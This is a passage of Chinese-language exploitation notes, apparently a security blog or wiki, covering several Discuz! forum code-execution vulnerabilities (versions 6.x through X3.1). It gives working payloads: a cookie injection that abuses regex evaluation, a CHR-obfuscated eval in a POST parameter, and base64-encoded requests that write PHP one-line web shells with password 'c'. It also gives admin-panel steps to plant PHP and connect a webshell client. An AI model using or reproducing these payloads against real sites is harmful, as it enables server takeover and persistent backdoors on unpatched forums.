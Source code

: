 参考链接：http://0day5.com/archives/2846/
#### 演示3：Discuz 6.x/7.x /include/discuzcode.func.php 代码执行漏洞
访问一个存在的帖子，需要访问的页面有表情。 例如：http://192.168.0.222/bbs/viewthread.php?tid=12&extra=page%3D1 然后刷新帖子，拦截数据包，cookie中添加
1GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui;GLOBALS[_DCACHE][smilies][replacearray]=phpinfo();

参考链接：
https://www.cnblogs.com/milantgh/p/4199432.html
http://sh4d0w.lofter.com/post/1cb55ec4_2d35857
https://www.secpulse.com/archives/2338.html
https://bugs.shuimugan.com/bug/view?bug_no=80723
#### 演示4：Discuz! x3.1 convert插件代码执行漏洞
在该链接下：http://www.test.ichunqiu/bbs/admincp.php?/utility/convert/index.php?a=config&source=d7.2_x2.0
发送如下POST请求包(设置newconfig[aaa%0a%0deval(CHR(101).CHR(118).CHR(97).CHR(108).CHR(40).CHR(34).CHR(36).CHR(95).CHR(80).CHR(79).CHR(83).CHR(84).CHR(91).CHR(99).CHR(93).CHR(59).CHR(34).CHR(41).CHR(59));//]=aaaa)。

菜刀连接地址www.test.ichunqiu/utility/convert/data/config.inc.php 密码c

参考链接：
https://bbs.ichunqiu.com/thread-1909-1-1.html
https://www.webshell.cc/4664.html
#### 演示5：Discuz! X2.5 远程代码执行漏洞
a.注册任意账户。
b.登陆用户，发表blog日志（注意是日志）。 
c.添加图片，选择网络图片，地址{${fputs(fopen(base64_decode(ZGVtby5waHA),w),base64_decode(PD9waHAgQGV2YWwoJF9QT1NUW2NdKTsgPz5vaw))}} 
d.访问日志，论坛根目录下生成demo.php，一句话密码：c。
参考链接：http://www.freebuf.com/vuls/329.html
#### 演示6：Discuz! X3.1后台任意代码执行可拿shell
全局--〉网站第三方统计代码--〉插入php代码,如插入 <?php phpinfo();?>

工具--〉更新缓存[为了保险起见，更新下系统缓存]：

门户--> HTML管理--〉设置：1）静态文件扩展名[一定要设置成htm] ：htm 2)专题HTML存放目录: template/default/portal 3)设置完，提交吧！

门户--〉专题管理--〉创建专题：1）专题标题：xyz 2）静态化名称：portal_topic_222 //222为自定义文件名，自己要记住 3）附加内容：选择上：站点尾部信息

提交,回到门户--〉专题管理,把刚才创建的专题开启，如下图

把刚才的专题，生成
下面就是关键了，现在到了包含文件的时候了。 再新建一个专题： 1）专题标题，静态化名称，这2个随便写 2）模板名：这个要选择我们刚才生成的页面：./template/default/portal/portal_topic_222.htm

然后提交，就执行了<?php phpinfo();?>

参考链接：https://www.seebug.org/vuldb/ssvid-93612
#### 演示7：Discuz! 7.1 - 7.2 远程代码执行漏洞
直接GET，利用语句：   http://xxxxx/misc.php?action=imme_binding&response[result]=aa:b&scriptlang[aa][b]={${fputs(fopen(base64_decode(Yy5waHA),w),base64_decode(PD9waHAgQGV2YWwoJF9QT1NUW2NdKTsgPz4x))}}   
在根目录生成C.PHP密码是C
参考链接：
http://blog.51cto.com/simeon/276114
https://www.jb51.net/hack/26337.html
#### 演示8：discuz 7.0 runwizard.inc.php 代码执行漏洞
在该链接下：http://www.80vul.com/bbs/admincp.php?action=runwizard&step=3
发送如下POST请求包。
